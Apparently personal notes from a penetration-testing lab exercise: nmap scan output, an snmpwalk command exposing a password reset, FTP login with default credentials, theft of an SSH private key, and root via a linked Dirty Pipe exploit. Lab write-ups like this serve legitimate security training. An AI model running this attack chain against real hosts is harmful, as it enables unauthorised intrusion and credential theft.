 # LOOT:
# NMAP:
```
Nmap scan report for 192.168.245.149
Host is up (0.023s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5c:5f:f1:bb:02:f9:14:7c:8e:38:32:2b:f4:bc:d0:8c (RSA)
|   256 18:e2:47:e1:c8:40:a1:d0:2c:a5:87:97:bd:01:12:27 (ECDSA)
|_  256 26:2d:98:d9:47:6d:22:5d:4a:14:7a:24:5c:98:a2:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/20%OT=21%CT=1%CU=30401%PV=Y%DS=4%DC=T%G=Y%TM=67B7
OS:592F%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M578ST11NW7%O2=M578ST11NW7%O3=M578NNT11NW7%O4=M578ST11NW7%O5=M578
OS:ST11NW7%O6=M578ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
OS:ECN(R=Y%DF=Y%T=40%W=FAF0%O=M578NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
-   Hops 1-3 are the same as for 192.168.245.150
4   22.50 ms 192.168.245.149
```
# ENUMERATION:
- UDP port snmp is open: 161/udp open  snmp
# COAS:
# LOG:
- Got password reset with:
	```
	snmpwalk -v 2c -c public -v1 192.168.245.149 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
	```
	Output:
	```
	NET-SNMP-EXTEND-MIB::nsExtendOutputFull."RESET" = STRING: Resetting password of kiero to the default value
	```
- Got ftp access with kiero:kiero
	- downloaded id_rsa
- modified id_rsa to 600 and ssh'ed in as john
- Got root with this exploit (https://github.com/LudovicPatho/CVE-2022-0847_dirty-pipe)